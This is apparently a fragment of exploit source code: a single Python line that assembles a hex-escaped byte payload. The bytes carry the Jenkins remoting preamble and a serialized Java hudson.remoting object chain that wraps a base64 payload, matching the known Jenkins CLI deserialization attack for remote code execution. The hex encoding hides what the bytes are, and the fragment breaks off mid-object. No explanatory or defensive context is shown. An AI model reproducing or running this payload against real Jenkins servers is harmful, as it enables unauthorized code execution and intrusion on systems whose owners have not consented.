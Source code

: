 ```python
payload='\x3c\x3d\x3d\x3d\x5b\x4a\x45\x4e\x4b\x49\x4e\x53\x20\x52\x45\x4d\x4f\x54\x49\x4e\x47\x20\x43\x41\x50\x41\x43\x49\x54\x59\x5d\x3d\x3d\x3d\x3e'+payload_b64+'\x00\x00\x00\x00\x11\x2d\xac\xed\x00\x05\x73\x72\x00\x1b\x68\x75\x64\x73\x6f\x6e\x2e\x72\x65\x6d\x6f\x74\x69\x6e\x67\x2e\x55\x73\x65\x72\x52\x65\x71\x75\x65\x73\x74\x00\x00\x00\x00\x00\x00\x00\x01\x02\x00\x03\x4c\x00\x10\x63\x6c\x61\x73\x73\x4c\x6f\x61\x64\x65\x72\x50\x72\x6f\x78\x79\x74\x00\x30\x4c\x68\x75\x64\x73\x6f\x6e\x2f\x72\x65\x6d\x6f\x74\x69\x6e\x67\x2f\x52\x65\x6d\x6f\x74\x65\x43\x6c\x61\x73\x73\x4c\x6f\x61\x64\x65\x72\x24\x49\x43\x6c\x61\x73\x73\x4c\x6f\x61\x64\x65\x72\x3b\x5b\x00\x07\x72\x65\x71\x75\x65\x73\x74\x74\x00\x02\x5b\x42\x4c\x00\x08\x74\x6f\x53\x74\x72\x69\x6e\x67\x74\x00\x12\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x78\x72\x00\x17\x68\x75\x64\x73\x6f\x6e\x2e\x72\x65\x6d\x6f\x74\x69\x6e\x67\x2e\x52\x65\x71\x75\x65\x73\x74\x00\x00\x00\x00\x00\x00\x00\x01\x02\x00\x03\x49\x00\x02\x69\x64\x49\x00\x08\x6c\x61\x73\x74\x49\x6f\x49\x64\x4c\x00\x08\x72\x65\x73\x70\x6f\x6e\x73\x65\x74\x00\x1a\x4c\x68\x75\x64\x73\x6f\x6e\x2f\x72\x65\x6d\x6f\x74\x69\x6e\x67\x2f\x52\x65\x73\x70\x6f\x6e\x73\x65\x3b\x78\x72\x00\x17\x68\x75\x64\x73\x6f\x6e\x2e\x72\x65\x6d\x6f\x74\x69\x6e\x67\x2e\x43\x6f\x6d\x6d\x61\x6e\x64\x00\x00\x00\x00\x00\x00\x00\x01\x02\x00\x01\x4c\x00\x09\x63\x72\x65\x61\x74\x65\x64\x41\x74\x74\x00\x15\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x45\x78\x63\x65\x70\x74\x69\x6f\x6e\x3b\x78\x70\x73\x72\x00\x1e\x68\x75\x64\x73\x6f\x6e\x2e\x72\x65\x6d\x6f\x74\x69\x6e\x67\x2e\x43\x6f\x6d\x6d\x61\x6e\x64\x24\x53\x6f\x75\x72\x63\x65\x00\x00\x00\x00\x00\x00\x00\x01\x02\x00\x01\x4c\x00\x06\x74\x68\x69\x73\x24\x30\x74\x00\x19\x4c\x68\x75\x64\x73\x6f\x6e\x2f\x72\x65\x6d\x6f\x74\x69\x6e\x67\x2f\x43\x6f\x6d\x6d\x61\x6e\x64\x3b\x78\x72\x00\x13\x6a\x61\x76\x61\x2e\x6c\x61\x6e\x67\x2e\x45\x78\x63\x65\x70\x74\x69\x6f\x6e\xd0\xfd\x1f\x3e\x1a\x3b\x1c\xc4\x02\x00\x00\x78\x72\x00\x13\x6a\x61\x76\x61\x2e\x6c\x61\x6e\x67\x2e\x54\x68\x72\x6f\x77\x61\x62\x6c\x65\xd5\xc6\x35\x27\x39\x77\xb8\xcb\x03\x00\x04\x4c\x00\x05\x63\x61\x75\x73\x65\x74\x00\x15\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x54\x68\x72\x6f\x77\x61\x62\x6c\x65\x3b\x4c\x00\x0d\x64\x65\x74\x61\x69\x6c\x4d\x65\x73\x73\x61\x67\x65\x71\x00\x7e\x00\x03\x5b\x00\x0a\x73\x74\x61\x63\x6b\x54\x72\x61\x63\x65\x74\x00\x1e\x5b\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x61\x63\x6b\x54\x72\x61\x63\x65\x45\x6c\x65\x6d\x65\x6e\x74\x3b\x4c\x00\x14\x73\x75\x70\x70\x72\x65\x73\x73\x65\x64\x45\x78\x63\x65\x70\x74\x69\x6f\x6e\x73\x74\x00\x10\x4c\x6a\x61\x76\x61\x2f\x75\x74\x69\x6c\x2f\x4c\x69\x73\x74\x3b\x78\x70\x71\x00\x7e\x00\x10\x70\x75\x72\x00\x1e\x5b\x4c\x6a\x61\x76\x61\x2e\x6c\x61\x6e\x67\x2e\x53\x74\x61\x63\x6b\x54\x72\x61\x63\x65\x45\x6c\x65\x6d\x65\x6e\x74\x3b\x02\x46\x2a\x3c\x3c\xfd\x22\x39\x02\x00\x00\x78\x70\x00\x00\x00\x0c\x73\x72\x00\x1b\x6a\x61\x76\x61\x2e\x6c\x61\x6e\x67\x2e\x53\x74\x61\x63\x6b\x54\x72\x61\x63\x65\x45\x6c\x65\x6d\x65\x6e\x74\x61\x09\xc5\x9a\x26\x36\xdd\x85\x02\x00\x04\x49\x00\x0a\x6c\x69\x6e\x65\x4e\x75\x6d\x62\x65\x72\x4c\x00\x0e\x64\x65\x63\x6c\x61\x72\x69\x6e\x67\x43\x6c\x61\x73\x73\x71\x00\x7e\x00\x03\x4c\x00\x08\x66\x69\x6c\x65\x4e\x61\x6d\x65\x71\x00\x7e\x00\x03\x4c\x00\x0a\x6d\x65\x74\x68\x6f\x64\x4e\x61\x6d\x65\x71\x00\x7e\x00\x03\x78\x70\x00\x00\x00\x43\x74\x00\x17\x68\x75\x64\x73\x6f\x6e\x2e\x72\x65\x6d\x6f\x74\x69\x6e\x67\x2e\x43\x6f\x6d\x6d\x61\x6e\x64\x74\x00\x0c\x43\x6f\x6d\x6d\x61\x6e\x64\x2e\x6a\x61\x76\x61\x74\x00\x06\x3c\x69\x6e\x69\x74\x3e\x73\x71\x00\x7e\x00\x13\x00\x00\x00\x32\x71\x00\x7e\x00\x15\x71\x00\x7e\x00\x16\x71\x00\x7e\x00\x17\x73\x71\x00\x7e\x00\x13\x00\x00\x00\x63\x74\x00\x17\x68\x75\x64\x73\x6f\x6e\x2e\x72\x65\x6d\x6f\x74\x69\x6e\x67\x2e\x52\x65\x71\x75\x65\x73\x74\x74\x00\x0c\x52\x65\x71\x75\x65\x73\x74\x2e\x6a\x61\x76\x61\x71\x00\x7e\x00\x17\x73\x71\x00\x7e\x00\x13\x00\x00\x00\x3c\x74\x00\x1b\x68\x75\x64\x73\x6f\x6e\x2e\x72\x65\x6d\x6f\x74\x69\x6e\x67\x2e\x55\x73\x65\x72\x52\x65\x71\x75\x65\x73\x74\x74\x00\x10\x55\x73\x65\x72\x52\x65\x71\x75\x65\x73\x74\x2e\x6a\x61\x76\x61\x71\x00\x7e\x00\x17\x73\x71\x00\x7e\x00\x13\x00\x00\x03\x08\x74\x00\x17\x68\x75\x64\x73\x6f\x6e\x2e\x72\x65\x6d\x6f\x74\x69\x6e\x67\x2e\x43\x68\x61\x6e\x6e\x65\x6c\x74\x00\x0c\x43\x68\x61\x6e\x6e\x65\x6c\x2e\x6a\x61\x76\x61\x74\x00\x04\x63\x61\x6c\x6c\x73\x71\x00\x7e\x00\x13\x00\x00\x00\xfa\x74\x00\x27\x68\x75\x64\x73\x6f\x6e\x2e\x72\x65\x6d\x6f\x74\x69\x6e\x67\x2e\x52\x65\x6d\x6f\x74\x65\x49\x6e\x76\x6f\x63\x61\x74\x69\x6f\x6e\x48\x61\x6e\x64\x6c\x65\x72\x74\x00\x1c\x52\x65\x6d\x6f\x74\x65\x49\x6e\x76\x6f\x63\x61\x74\x69\x6f\x6e\x48\x61\x6e\x64\x6c\x65\x72\x2e\x6a\x61\x76\x61\x74\x00\x06\x69\x6e\x76\x6f\x6b\x65\x73\x71\x00\x7e\x00\x13\xff\xff\xff\xff\x74\x00\x17\x68\x75\x64\x73\x6f\x6e\x2e\x72\x65\x6d\x6f\x74\x69\x6e\x67\x2e\x24\x50\x72\x6f\x78\x79\x31\x70\x74\x00\x0f\x77\x61\x69\x74\x46\x6f\x72\x50\x72\x6f\x70\x65\x72\x74\x79\x73\x71\x00\x7e\x00\x13\x00\x00\x04\xe7\x71\x00\x7e\x00\x20\x71\x00\x7e\x00\x21\x74\x00\x15\x77\x61\x69\x74\x46\x6f\x72\x52\x65\x6d\x6f\x74\x65\x50\x72\x6f\x70\x65\x72\x74\x79\x73\x71\x00\x7e\x00\x13\x00\x00\x00\x93\x74\x00\x0e\x68\x75\x64\x73\x6f\x6e\x2e\x63\x6c\x69\x2e\x43\x4c\x49\x74\x00\x08\x43\x4c\x49\x2e\x6a\x61\x76\x61\x71\x00\x7e\x00\x17\x73\x71\x00\x7e\x00\x13\x00\x00\x00\x48\x74\x00\x1f\x68\x75\x64\x73\x6f\x6e\x2e\x63\x6c\x69\x2e\x43\x4c\x49\x43\x6f\x6e\x6e\x65\x63\x74\x69\x6f\x6e\x46\x61\x63\x74\x6f\x72\x79\x74\x00\x19\x43\x4c\x49\x43\x6f\x6e\x6e\x65\x63\x74\x69\x6f\x6e\x46\x61\x63\x74\x6f\x72\x79\x2e\x6a\x61\x76\x61\x74\x00\x07\x63\x6f\x6e\x6e\x65\x63\x74\x73\x71\x00\x7e\x00\x13\x00\x00\x01\xdf\x71\x00\x7e\x00\x2d\x71\x00\x7e\x00\x2e\x74\x00\x05\x5f\x6d\x61\x69\x6e\x73\x71\x00\x7e\x00\x13\x00\x00\x01\x86\x71\x00\x7e\x00\x2d\x71\x00\x7e\x00\x2e\x74\x00\x04\x6d\x61\x69\x6e\x73\x72\x00\x26\x6a\x61\x76\x61\x2e\x75\x74\x69\x6c
```